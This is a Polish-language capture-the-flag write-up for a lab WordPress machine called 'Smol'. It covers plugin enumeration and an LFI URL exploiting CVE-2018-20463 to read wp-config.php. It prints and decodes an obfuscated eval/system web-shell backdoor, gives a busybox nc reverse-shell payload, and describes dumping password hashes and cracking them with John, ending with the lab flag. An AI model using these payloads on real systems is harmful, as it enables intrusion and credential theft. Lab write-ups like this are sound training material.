

# Smol
## Zadanie

At the heart of Smol is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the AttackBox, John The Ripper is faster than Hashcat?

Note: Please allow 4 minutes for the VM to fully boot up.

## Kroki

Zacznijmy od wejścia na stronę, na początku nie odpowiada ale gdy dodamy sobie ją komendą `echo "10.10.62.197 www.smol.thm" >> /etc/hosts`, poprawnie nas przenosi,

Wygląda na standardową stronę na WordPress, użyjmy nmap i ffuf w celu wstępnego rekonesansu.

Wyniki nmap - SSH i HTTP standardowo otwarte:

FFUF zwróciło standardowe WordPressowe podstrony. Jak wiemy z polecenia musimy znaleźć podatny plugin, można to łatwo zrobić używając gobustera i wordlisty z nazwami pluginów. Przeszukujemy wtedy lokalizację `/wp-content/plugins`

Znaleźliśmy 2 pluginy *jsmol2wp* i *akismet*

Dla jsmol2wp istnieje podatność LFI Path Traversal (CVE-2018-20463).

Bazując na PoC z exploit-db, otwieramy plik `wp-config.php`.
https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt

Bingo! Znaleźliśmy hasło! Zalogujmy się nim teraz przez `/wp-admin.php`.

Przeglądając zakładkę Pages znalazłem tam ciekawą listę *Webmaster tasks*, która była prywatna, po jej przejrzeniu okazało się że odnosi się ona do sprawdzenia kodu pluginu "Hello Dolly", więc akismet okazał się być FP.

Musimy teraz znów wykorzystać podatność LFI aby dostać się do kodu hello dolly, w tym celu otwieramy poniższy URL:
`http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php`

widzimy ciekawą linijkę kodu:
`eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));`
Po zdekodowaniu to będzie:
`eval("if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }")`
Gdy przetłumaczymy hexy otrzymamy:
`eval("if (isset($_GET["cmd"])) { system($_GET["cmd"]); }")`
Czyli mamy podatność RCE w parametrze CMD, plugin działa pod index.php więc naszym PoC jest:
`http://www.smol.thm/wp-admin/index.php?cmd=ls`

Od razu próbujemy Rev Shella, po kilku testach zadziałał BusyBox nc payload:
`busybox nc <IP> <PORT> -e sh`

Ulepszamy shella komendą `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Następnie łączymy się z bazą danych credentialami z wp-config.php.
Potem wyciągamy sobie rekordy z bazy wp_users
`SELECT * FROM wp_users;`

Otrzymujemy tym samy hash'e haseł które scrackujemy sobie używając JTR zgodnie ze wskazówką

Wrzucamy je do pliku hash.txt i odpalamy poniższą komendę:
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

Po chwii uzyskujemy hasło dla użytkownika diego. Logujemy się do niego za pomocą `su diego` i pierwsza flaga jest nasza!

## Flaga

Flaga: **45edaec653ff9ee06236b7ce72b86963**